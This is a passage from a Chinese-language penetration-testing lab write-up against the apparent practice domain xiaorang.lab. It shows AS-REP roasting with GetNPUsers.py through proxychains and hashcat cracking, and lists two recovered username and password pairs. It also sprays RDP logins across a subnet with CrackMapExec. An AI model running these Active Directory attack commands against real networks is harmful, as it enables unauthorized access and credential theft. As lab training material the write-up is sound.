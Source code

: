 
使用 phpmyadmin 进行数据库连接后将用户导出

### AS—REP Roasting

使用`GetNPUsers`查找不需要 Kerberos 预身份验证的用户

```plain
proxychains python3 GetNPUsers.py -dc-ip 172.22.15.13 -usersfile /home/quan9i/zdoosys_user.txt xiaorang.lab/
```

[![](assets/1707954847-8004ca5997a43ae252739ae0f9c28551.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209164143-0d37f5dc-c727-1.png)

`hashcat`爆破得到两组用户

```plain
lixiuying:winniethepooh
huachunmei:1qaz2wsx
```

使用`cme`尝试可 RDP 登录的主机

```plain
proxychains ./cme rdp 172.22.15.9/24 -u lixiuying -p winniethepooh -d xiaorang.lab
```

[![](assets/1707954847-1a8cb981715cec886ff1f424150da353.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209164222-24622944-c727-1.png)
